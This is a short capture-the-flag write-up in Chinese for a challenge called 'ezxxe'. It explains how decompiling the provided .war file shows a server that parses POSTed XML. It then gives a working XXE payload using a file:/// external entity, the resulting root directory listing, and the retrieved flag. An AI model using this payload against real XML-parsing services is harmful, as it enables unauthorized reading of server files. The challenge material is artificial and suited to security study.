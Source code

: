 # ezxxe
打开这个网站后，发现这个网站没有前端，但是题目提供了一个源代码，格式位`.war`，使用jar反编译工具`jd-gui`就可以将war进行反编译。
解包后发现这是一个xml注入的问题，服务器会对POST的xml文件进行解析，将解析的内容存入map并返回。可以使用xml注入漏洞获取flag。由于网页没有前端，所以我们可以使用POST工具进行提交。为了方便，我使用[GetMan](https://getman.cn)进行提交。
我们发送如下xml：
``` xml
<?xml version="1.0"?>
<!DOCTYPE a [<!ENTITY xxe SYSTEM "file:///" >]>
<b>
<a>&xxe;</a>
</b>
```
其中，xxe为使用file协议解析的实体，内容是根目录下的文件列表。发送到指定的网站: `http://111.186.57.85:10020/parse` ，于是就可以得到根目录下的内容了。
```
{a=.dockerenv
bin
boot
dev
etc
flag
home
jdk
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
start.sh
sys
tmp
tomcat
usr
var
}
```
我们发现有一个名为 `flag` 的目录很可疑，再次发送请求，把前面的地址改为： `file:///flag` ，于是就可以得到一个文件名。再次POST，把地址改成该文件的地址，就可以得到返回的flag。
```
0ops{0813bca99cf1210e176b125e5f1d3f1b}
```